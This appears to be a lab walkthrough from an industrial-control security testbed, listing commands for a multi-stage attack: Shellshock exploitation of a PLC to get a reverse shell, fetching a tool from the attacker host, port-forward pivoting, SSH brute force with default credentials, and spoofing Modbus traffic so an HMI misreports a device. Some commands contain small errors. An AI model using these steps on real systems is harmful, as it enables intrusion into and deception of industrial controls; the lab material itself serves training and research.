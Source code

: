 # Multi Stage Attack scenario

This page outlines an attack targeting the Internal Gateway, which is not directly accessible from the attacker machine. To overcome this limitation, the attacker leverage ShellShock vulnerability in the Genera-PLC to pivot and gain access to the target. Then, traffic is spoofed to manipulate M-IED1 device. Notably, all files and tools required to execute this attack are already included within the provided Docker container.

- Use the attacker node:
```bash
docker exec -ti Attacker-Node bash
```

---

The first stage of the attack path exploits the Shellshock vulnerability in the General-PLC, specifically targeting the CGI-Bin module of the Apache web server. This vulnerability enables attackers to inject and execute malicious commands through specially crafted HTTP requests since the CGI (Common Gateway Interface) scripts on Apache invoke the Bash shell for processing the HTTP response. 

- Execute the exploit:
```bash
python3 shellshock.py 10.0.1.100 4444 http://10.0.1.66//cgi-bin/stats
```

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/shellshock.png "Figure: Shellshock Exploit")

- Establish a reverse shell listener:
```bash
nc -lvnp 4444
```

![Reverse Shell](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/reverse.png "Figure: Reverse Shell")

To progress further along the attack path, the attacker must perform pivoting to reach the I-Gateway. Indeed, this device is typically unreachable from the SCADA Network. However, by compromising the General-PLC, the attacker can bypass these restrictions and establish a connection to the I-Gateway using port forwarding techniques. It is worth noting that the shell upgrade has already been performed. For those interested in understanding how to execute the shell upgrade, detailed guidance can be found [this link](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

- Establish a webserver:
```bash
python3 -m http.server
```
![Webserver](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/webserver.png "Figure: Webserver")

- Downloading the required tool:
```bash
wget http://10.0.1.100/port-forward.py
```
![Tool Download](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/download-tool.png "Figure: Tool Download")

- Port Forwarding:
```bash
python port-forward.py 2222:10.0.1.77:22
```
![ Port Forwarding](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/port-forwarding.png "Figure: Port Forwarding")

Then, the attacker is able to brute force the SSH service exposed by the gateway and take complete control of the endpoint. In fact, this service was exploited by finding the default credential. Therefore, this credential enables us also to gain root privilege.

- SSH Bruteforce:
```bash
hydra -L user.txt -P pass.txt -t 6 ssh://10.0.1.66:2222
```
![SSH Bruteforce](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/bruteforce-ssh.png "Figure: SSH Bruteforce")

- SSH Connection:
```bash
ssh -P 2222 admin@10.0.1.66
```
![SSH Access](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/ssh.png "Figure: SSH Access")

Finally, the attacker alters the communication passing through the I-Gateway in order to manipulate the visualization of the M-IED1 status.

- Copy the modification script to the I-Gateway:
```bash
scp -P 2222 coilModificationStealth.py admin@10.0.1.66:/home/admin/ #Attacker Node
```
- Execute the script on the I-Gateway:
```bash
python3 coilModificationStealth.py #I-Gateway
```

![Packet Modification](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/packetModification.png "Figure: Packet Modification")

Indeed, from the HMI interface, we can observe that MIED1 appears to be active. However, by using the TestNode, which is connected to the same network interface as the MPLC, it is possible to confirm that the displayed MIED1 is close.

![HMI](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/HMI.png "Figure: HMI")

- Use the Test-Node:
```bash
docker exec -ti Test-Node bash
```
- Check coils status:
```bash
from pymodbus.client import ModbusTcpClient  # pylint: disable-msg=E0611
client = ModbusTcpClient('127.0.0.1', 502)
print(readSPLC = splc.read_coils(8, 25).bits)
```

![Coils](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/coils.png "Figure: Coils")
